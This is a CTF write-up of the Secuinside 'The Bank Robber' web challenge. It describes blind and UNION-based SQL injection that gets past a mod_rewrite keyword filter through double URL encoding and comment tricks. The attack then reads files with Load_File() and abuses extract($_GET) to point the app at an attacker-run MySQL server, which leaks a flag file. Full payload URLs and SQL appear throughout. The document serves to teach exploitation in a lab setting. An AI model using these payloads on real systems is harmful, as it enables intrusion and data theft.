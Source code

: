 ```yaml
---
title: secuinside ctf web The Bank Robber writeup
author: slipper
layout: post
permalink: /secuinside-ctf-web-the-bank-robber-writeup/
categories:
  - Uncategorized
---
```

## The Bank Robber

This is an excelent challenge. Thanks for the awesome CTF.

We waste a lot of time in dealing with the SQL injection part.

We found the SQL injection vulnerability in `./M.list` .

The server use mod_rewrite to modify the incoming URL request. It seems that the sever split the URL by `'.'`.

The SQL query is

        select * from hacked_list where $column like '%$word%' order by time desc;
    

When we GET `./M.list.idx.1`, it was translated to the query

        select * from hacked_list where idx like '%1%' order by time desc;
    

The $word is quoted, but idx seems to be not filtered.

`GET ./M.list.idx&lt;30--.1` returns 29 results.

At first, we use %23(&#8216;#&#8217;) to comment out the rest part of the query. But it seems useless. (We are not familiar with mod_rewrite&#8230;) Later, we found &#8216;&#8211;&#8217; took effect because &#8216;-&#8217; won&#8217;t be escaped.

`GET ./M.list.idx&lt;=(select ascii(substring(user(),1,1)))-80--.1` </br>

We use blind injection to get some useless information such as user(), database(), version()&#8230;

But we don&#8217;t know how to query the information_schema database to get more information about the database structure, because the `'.'` is used as the split point in the URL.

Moreover, We don&#8217;t know how to use `order by 1` or `and 1=1` to gain deeper information about this injection. We thought the $column is strictly filtered.. We were confused then.

Flanker accidently found that `./M.list.id%2bx.1` returns normal page. I fell deep in thought.

I realized that the URL was unescaped twice (it is evident if I were familiar with mod_rewrite) and filtered space(`' '`). The transformation is `'%2b' =&gt; '+' =&gt; ' ' =&gt; ''`

Then I knew how to use `'.'` in the query and what&#8217;s wrong with the `order by` and other clauses.

I use `'%252e'` to represent `'.'` and `'%252f%252a%252a%252f'('/**/')` to represent `'<br /><br />
'`. (In fact, `'/**/'` is also effective)

`order by` is filtered to `orderby`, but `order/**/by` is effective.

I found `order/**/by/**/1` returns normal page, but `order/**/by/**/2` returns empty page, so there was only one column in the SQL query.

But it went wrong when I constructed a &#8216;union select&#8217; query. Then I found &#8216;union&#8217;, &#8216;select&#8217; and &#8216;from&#8217; was filtered.

GET `'./M.idx=1-select-.1'` Normal

GET `'./M.idx=1-union-.1'` Normal

GET `'./M.idx=1-from-.1'` Normal

GET `'./M.idx=1-unselection-.1'` Normal

GET `'./M.idx=1-selunionect-.1'` Empty

GET `'./M.idx=1-frunselectionom-.1'` Normal

GET `'./M.idx=1-   frunselectionom-.1'` Normal

so the filter function might be

>> replace &#8216;select&#8217; to &#8221; in $column

>> replace &#8216;union&#8217; to &#8221; in $column

>> replace &#8216;from&#8217; to &#8221; in $column

>> replace &#8216; &#8216; to &#8221; in $column

It was easy to find that `'Select', 'Union', 'From'` were not filtered.

So I use

    http://1.234.27.139:61080/M.list.1=2%252f%252a%252a%252fUnion%252f%252a%252a%252fSelect%252f%252a%252a%252f1,column_name,3,4%252f%252a%252a%252fFrom%252f%252a%252a%252finformation_schema%252ecolumns%252f%252a%252a%252fwhere%252f%252a%252a%252ftable_name=0x6861636b65645f6c697374--.a
    

to view all the information in the database.

We were stucked soon. Because there was nothing special in the database.

But we found we could load files from the server. The only way to go on was to use load&#95;file() to read files from server. (load&#95;file() is also filtered so we use Load_File())

Having tried many filenames, Flanker (again~) found the the `'/site/.htaccess'` is readable. So we could get some special information in source code.

The HINT showed that the flag was in `'/var/lib/php5/FLAG'`, we could read the file through the vulnerability in the source code.

     45 if (!ini_get("register_globals")) extract($_GET);
     ...
     47 include_once $_BHVAR['path_lib']."database.php";
     48 include_once $_BHVAR['path_module']."_system/functions.php";
     ...
     64 $head = $_BHVAR['path_layout'].get_layout($_skin, 'head');
     ...
     67 echo file_get_contents($head);
     ...
     70     case "P" : echo file_get_contents($_BHVAR['path_page']."/".$_act."/_main.php"); break;
     71     case "M" : include_once $_BHVAR['path_module']."/".$_act."/_main.php"; break;
    

get_layout() was defined in `'./modules/_system/functions.php'`

     10  function get_layout($layout, $pos){
     11     $result = mysql_query("select path from _BH_layout where layout_name='$layout' and position='$pos'");
     12     $row = mysql_fetch_array($result);
     13     if (!isset($row['path'])){
     14         if ($pos = 'head'){
     15             return "./reverted/h.htm";
     16         } else {
     17             return "./reverted/f.htm";
     18         }
     19     }
     20     return $row['path'];
     21  }
    

In line 45, we could register variables in $_GET, but it was escaped.

In line 70/71, we could read/include files, but we could not truncate the suffix `'/_main.php'`.

Since we could register globals, we could modify some variable such as `$_BHVAR`.

The database connection settings were stored in `./lib/database.php`. If we change the $&#95;BHVAR['path&#95;lib'], the `./lib/database.php` could not be included correctly, we could use our own mysql server to answer the query.

Then we create a table for this challenge. Thanks aay for offerring vps.

     create table _BH_layout(path varchar(50), layout_name varchar(50), position varchar(50));
     insert _BH_layout values('../../../../../var/lib/php5/FLAG', '1', 'head');
    
    http://1.234.27.139:61080/Main_Site/TBR.php?_type=P&_skin=1&_BHVAR[path_module]=./modules/&_BHVAR[db][host]=50.115.47.187&_BHVAR[db][user]=BH&_BHVAR[db][pass]=BHBH&_BHVAR[db][name]=BH
    
    

key is&#8230; @*Y0UR&#95;EY3&#95;LEE_SIN*@